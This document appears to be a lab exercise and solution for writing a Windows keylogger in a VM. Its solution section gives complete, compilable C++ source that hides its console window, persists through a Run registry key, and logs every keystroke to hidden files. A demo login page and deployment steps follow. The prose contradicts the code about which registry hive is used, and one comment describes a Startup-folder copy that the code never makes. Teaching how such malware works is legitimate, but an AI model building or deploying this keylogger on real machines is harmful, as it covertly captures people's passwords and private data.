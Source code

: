 # Write A Standalone Keylogger
A keylogger is a type of malware used in cyberattacks to steal sensitive information by recording keystrokes on a victim's computer. Often installed covertly through phishing emails, it captures login credentials and personal data for attackers to misuse


## References
- [Keystroke Logging](https://en.wikipedia.org/wiki/Keystroke_logging) by Wikipedia
- [GetAsyncKeyState](https://docs.microsoft.com/en-us/windows/desktop/api/winuser/nf-winuser-getasynckeystate) by Microsoft
- [Keylogger](https://github.com/shubhangi-singh21/Keylogger) by shubhangi-singh21 on GitHub


## Tasks
- Setup a Windows VM
- Write a custom keylogger program with the following capabilities
  - The program starts executing when the system boots
  - The program runs as a background process without affecting any foreground processes
  - The program logs all user keystrokes in hidden files on the same disk
  - The program must use minimal resources to avoid detection
- Keylogger Creation Guidelines
  - You can use Windows APIs in your program
  - Use a programming language of your choice
  - Compile the program into a binary for deployment
- Deploy the keylogger binary in your VM
- Configure the keylogger to execute when the system starts
- Open a web browser and input a fictional username and password into a login form


## Benchmarks
- Validate that your keylogger starts at system boot time
- Validate that your keylogger records all keystrokes in hidden files
- Validate that your keylogger runs as a background process (you can view the active process listing in 'Task Manager')


## Solutions With Scripts
1. Save the following C++ program and compile it into a binary file called `keylogger.exe` to be used in a Windows 10 VM
   ```
    #include <iostream>
    #include <windows.h>
    #include <ctime>      // For timestamp
    #include <sstream>    // For constructing filename
    #include <fstream>    // For file operations
    #include <string>     // For string manipulation
    
    using namespace std;
    
    void AddToStartup() {
        // Get the current executable path using the wide-character version of GetModuleFileName
        wchar_t filePath[MAX_PATH];
        GetModuleFileNameW(NULL, filePath, MAX_PATH);  // Get the path of the current executable
    
        HKEY hKey;
        // Create or open the registry key for startup (HKEY_CURRENT_USER means it will only affect the current user)
        LONG createStatus = RegCreateKeyW(HKEY_CURRENT_USER, L"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", &hKey);
    
        if (createStatus == ERROR_SUCCESS) {
            // Set the registry value to add the executable to the startup list
            LONG status = RegSetValueExW(hKey, L"MyKeylogger", 0, REG_SZ, (BYTE*)filePath, (wcslen(filePath) + 1) * sizeof(wchar_t));
            
            if (status == ERROR_SUCCESS) {
                cout << "Keylogger successfully added to startup!" << endl;
            } else {
                cerr << "Error setting registry value!" << endl;
            }
    
            // Close the registry key handle
            RegCloseKey(hKey);
        } else {
            cerr << "Error creating/opening registry key!" << endl;
        }
    }
    
    string CreateDynamicLogFile() {
        // Generate a dynamic file name based on timestamp
        time_t now = time(NULL);
        struct tm* localTime = localtime(&now);
    
        stringstream filename;
        filename << "log_"
                 << localTime->tm_year + 1900 << "_"
                 << (localTime->tm_mon + 1) << "_"
                 << localTime->tm_mday << "_"
                 << localTime->tm_hour << "_"
                 << localTime->tm_min << "_"
                 << localTime->tm_sec << ".txt"; // Second
    
        return filename.str();
    }
    
    void HideLogFile(const string& filename) {
        DWORD attributes = GetFileAttributes(filename.c_str());
        if (attributes == INVALID_FILE_ATTRIBUTES) {
            cerr << "Error getting file attributes for " << filename << endl;
            return;
        }
    
        // Set file attributes to hidden
        if (SetFileAttributes(filename.c_str(), attributes | FILE_ATTRIBUTE_HIDDEN)) {
            cout << "Successfully set file to hidden: " << filename << endl;
        } else {
            cerr << "Failed to set file to hidden: " << filename << endl;
        }
    }
    
    int Save(int _key, const char* file) {
        ofstream OUTPUT_FILE(file, ios::app);
        if (!OUTPUT_FILE.is_open()) {
            cerr << "Error opening file!" << endl;
            return -1;
        }
    
        // Save key inputs to file
        switch (_key) {
            case VK_SHIFT: OUTPUT_FILE << "[SHIFT]"; break;
            case VK_BACK: OUTPUT_FILE << "[BACKSPACE]"; break;
            case VK_LBUTTON: OUTPUT_FILE << "[L_CLICK]"; break;
            case VK_RBUTTON: OUTPUT_FILE << "[R_CLICK]"; break;
            case VK_RETURN: OUTPUT_FILE << "[ENTER]"; break;
            case VK_TAB: OUTPUT_FILE << "[TAB]"; break;
            case VK_ESCAPE: OUTPUT_FILE << "[ESCAPE]"; break;
            case VK_CONTROL: OUTPUT_FILE << "[CTRL]"; break;
            case VK_MENU: OUTPUT_FILE << "[ALT]"; break;
            case VK_CAPITAL: OUTPUT_FILE << "[CAPS LOCK]"; break;
            case VK_SPACE: OUTPUT_FILE << "[SPACE]"; break;
            default: OUTPUT_FILE << (char)_key;
        }
    
        OUTPUT_FILE.close();
        HideLogFile(file);
    
        return 0;
    }
    
    int main() {
        // Hide the console window
        FreeConsole();
    
        // Copy the executable to the Startup folder (ensures persistence)
        AddToStartup(); // Using the updated AddToStartup function
    
        // Create and hide the log file
        string logFilename = CreateDynamicLogFile();
        cout << "Log file created: " << logFilename << endl;
    
        ofstream logFile(logFilename.c_str());
        if (logFile.is_open()) {
            logFile.close();
        } else {
            cerr << "Error creating log file!" << endl;
            return -1;
        }
    
        HideLogFile(logFilename);
    
        char i;
        while (true) {
            Sleep(10); // Reduce CPU usage
            for (i = 8; i <= 255; i++) {
                if (GetAsyncKeyState(i) == -32767) {
                    Save(i, logFilename.c_str()); // Save key presses to the log file
                }
            }
        }
    
        return 0;
    }
   ```
2. Save the following HTML file as `login.html` for the purpose of inputting a fictional username and password in the login form
   ```
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Demo Login Page</title>
    </head>
    <body>
        <h1>Login</h1>
        <form>
            <label for="username">Username:</label><br>
            <input type="text" id="username" name="username"><br><br>
            <label for="password">Password:</label><br>
            <input type="password" id="password" name="password"><br><br>
            <button type="submit">Login</button>
        </form>
    </body>
    </html>
   ```
3. Execute `keylogger.exe` with admin privileges. It will now run as a process in the Task Manager
   ![image](https://github.com/user-attachments/assets/831ccbab-c58a-46ba-b90d-09afd2b7fd5f)

5. Reboot the Windows 10 VM. Since the keylogger executable creates an entry in the registry at `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`, it will autorun at startup
   ![image](https://github.com/user-attachments/assets/9dc68225-187c-4afe-a4d8-dc935422cc7a)
   This can also be found in the Startup tab in Task Manager. Note that multiple registry entries in different registry locations will create multiple startup instances <br/>
   ![image](https://github.com/user-attachments/assets/1a3117e6-17b0-4727-bc1c-583ef2b79968)
   If rebooting the VM does not cause the keylogger to autorun on startup, a manual fix is to press `Win + R` key, and enter `shell:startup`. This will bring you to the folder that stores programs to run on startup. Create a shortcut of `keylogger.exe` and save it here
   ![image](https://github.com/user-attachments/assets/e55bf18f-e6b2-4b26-bbd2-d00a8888b556)
7. Open `login.html` in a web browser. Show that the keylogger records all keystrokes in hidden files
   
